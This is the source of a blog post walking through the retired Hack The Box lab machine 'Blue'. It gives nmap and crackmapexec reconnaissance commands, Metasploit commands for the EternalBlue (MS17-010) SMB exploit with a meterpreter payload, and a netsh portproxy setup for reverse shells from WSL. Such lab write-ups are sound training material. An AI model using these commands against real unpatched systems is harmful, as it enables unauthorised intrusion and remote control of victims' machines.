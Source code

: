 ```yaml
---
layout: post
title: Blue by Hack the Box
meta: Okay in todays walkthrough we will be looking at the retired HackTheBox machine “Blue”.
category:
  - hack-the-box
image: card1-img.png
date: 2020-12-03
tags:
    - internal-inf
    - external-inf
    - nessus
    - scanning
    - host-discovery
    - port-scanning
permalink: blog/:title
---
```

<style>
  .hover-link:hover {
    
  }

  .hover-link {
    font-weight: bold;
    cursor: pointer;
    color: #05cfa3;
  }
</style>

Okay in todays walkthrough we will be looking at the retired HackTheBox machine “Blue”.

![info-card]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/info-card.png "info-card")

Lets start out looking for open ports using the network mapper tool.

We will run <code>nmap</code> with the default scripts, operating system version detection and traceroute <code>-A</code>. We will scan all ports <code>-p-</code> and we will turn off discovery <code> -Pn</code> as we know the host exists.

![nmap-scan]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/nmap-scan.jpg "nmap-scan")

So looks like we have a Windows box, Windows 7 Professional to be more exact.

Lets just check that SMB version 1 has not been disabled. I like to use crackmapexec for this, I find it faster than nmap for this task.

![crackmapexec]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/crackmapexec.png "crackmapexec")

If we wanted to use nmap we could use the smb-protocols.nse script.

{% highlight PowerShell%}
sudo nmap -sT -Pn -p 445 --script=smb-protocols.nse 10.10.10.40
{% endhighlight %}

Here we can see the version of SMB supported.

![nmap-smb-protocols]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/nmap-smb-protocols.png "nmap-smb-protocols")

SMBv1 in use on a legacy Windows operating system screams check SMB vulnerabilities. We can run all of nmap smb scripts using globbing. If we enter <code>--script smb*</code> we will run all NSE scripts that start with smb.

![nmap-smb-scripts]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/nmap-smb-scripts.jpg "nmap-smb-scripts")

We have a confirmed vulnerability. To exploit we are going to use Metasploit. I am currently using version 2 of the WSL and so my interface out onto the network is currently NAT’ed. This means we wont be able to get reverse shells back without making amendments to the windows firewall using <code>netsh portproxy</code>.

We start Metasploit with the following command as this commands ensures the database starts up before running the msfconsole.

{% highlight PowerShell%}
msfdb run
{% endhighlight %}

To exploit the box using Eternal Blue

{% highlight PowerShell%}
se windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.40
set payload windows/x64/meterpreter/bind_tcp
run
{% endhighlight %}

![metasploit-module-options-reverse-shell]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/metasploit-module-options-reverse-shell.png "metasploit-module-options-reverse-shell")

The below is the typical output that displays on the screen.

![meterpreter-shell]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/meterpreter-shell.jpg "meterpreter-shell")

We have a shell. Let us locate the user and admin/root flags.

User flag

![user-flag]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/user-flag.png "user-flag")

Root Flag

![root-flag]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/root-flag.jpg "root-flag")

We mentioned that one of the limitations of using the WSLv2 is we are not able to get reverse shells without using the firewall as a proxy.

{% highlight PowerShell%}
netsh interface portproxy add v4tov4 listenport=<port windows host> listenaddress=<htb vpn> connectport=<wsl port> connectaddress=<wsl ip>
{% endhighlight %}

The older version of the WSL (version 1) utilised the network interfaces on the windows host. As a workaround we can set the version of the WSL in use on the machine to WSLv1 with the following command.

{% highlight PowerShell%}
wsl --set-version kali-linux 1
{% endhighlight %}

Just replace your machine name if it is not called “kali-linux” with the name of your machine. You can check out the name of you machine and its current version with the wsl -l -v command.

![wsl-set-kali-version1]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/wsl-set-kali-version1.png "wsl-set-kali-version1")

Now we can verify the version of the machine.

![wsl-l-v]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/wsl-l-v.png "wsl-l-v")

Now we can use a reverse shell.

![wsl-l-v]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/wsl-l-v.png "wsl-l-v") 

This time you will see at the start of execution Metasploit “Started reverse TCP handler on 10.10.14.15:12345”

![meterpreter-reverse-shell]({{ site.baseurl }}/assets/images/article-images/blue-hack-the-box/meterpreter-reverse-shell.png "meterpreter-reverse-shell")